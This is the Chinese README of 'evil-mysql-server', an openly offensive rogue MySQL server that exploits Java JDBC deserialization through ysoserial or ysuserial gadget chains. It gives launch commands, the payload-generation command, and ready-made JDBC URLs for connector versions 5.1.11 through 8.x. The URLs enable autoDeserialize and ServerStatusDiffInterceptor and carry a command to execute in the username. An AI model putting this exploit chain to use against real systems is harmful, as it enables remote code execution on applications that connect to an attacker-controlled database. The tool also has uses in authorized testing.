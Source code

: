 # evil mysql server

[English](./README.MD) | 简体中文

## 简介

**evil-mysql-server** 是一个针对 jdbc 反序列化漏洞编写的恶意数据库，依赖 ysoserial 。

使用方式

[ysoserial](https://github.com/frohoff/ysoserial)

```shell
./evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```

启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 calc.exe
```

[ysuserial](https://github.com/su18/ysoserial) 这是一个基于原始ysoserial的增强项目。

```shell
./evil-mysql-server -addr 3306 -java java -ysuserial ysuserial-0.9-su18-all.jar
```

启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysuserial-0.9-su18-all.jar -g CommonsCollections1 -p calc.exe
```

## JDBC url 示例

> 使用 ysuserial 时请修改username的前三个字符为 **ysu** 

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## 致谢

感谢以下项目，带来的启发

- [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)